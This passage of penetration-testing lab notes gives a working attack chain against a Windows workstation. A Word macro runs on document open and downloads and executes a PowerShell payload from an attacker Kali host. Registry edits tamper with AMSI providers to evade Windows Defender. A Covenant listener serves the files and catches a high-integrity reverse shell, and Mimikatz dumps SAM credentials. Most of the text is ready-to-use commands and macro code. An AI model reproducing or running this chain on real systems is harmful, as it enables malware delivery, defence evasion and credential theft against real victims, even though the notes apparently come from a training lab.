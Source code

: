 **banana.txt content**:
```
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/helper.ps1');helper -custom "cmd.exe /c powershell New-Item 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFF}' -Force; Remove-Item -Path 'HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}' -Recurse; cmd.exe /c <powershell reverse shell>"
```

**Benefits.doc - Macro Word File**:
```macro
Sub FruitLoops()
  Dim wsh As Object
  Set wsh = CreateObject("WScript.Shell")
  wsh.Run "powershell iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/banana.txt')"
  Set wsh = Nothing
End Sub
Sub AutoOpen()
  FruitLoops
End Sub
```

We need to host 2 files - the exploit and the helper.ps1:
```bash
Listener > host > /banana.txt > browser > select file > create
Listener > host > /helper.ps1 > browser > select file > create
```

in Workstation-01:
```powershell
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/banana.txt')
```

> Windows defender will not get our exploit, cause we bypassed
we should get high integrity shell in Covenant


in Covenant Shell:
```bash
whoami
Mimikatz token::elevate lsadump:sam
```

```
Go back to workstation-01 > rename back to the original file
 > register > HKLM\software\microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}
```

- c:\Shared\Benefits.doc = the malicious macro file

> it will change de register file again. and we will gain shell from covenant again

# Domain Enumeration

## Downloading Files

- With Powershell
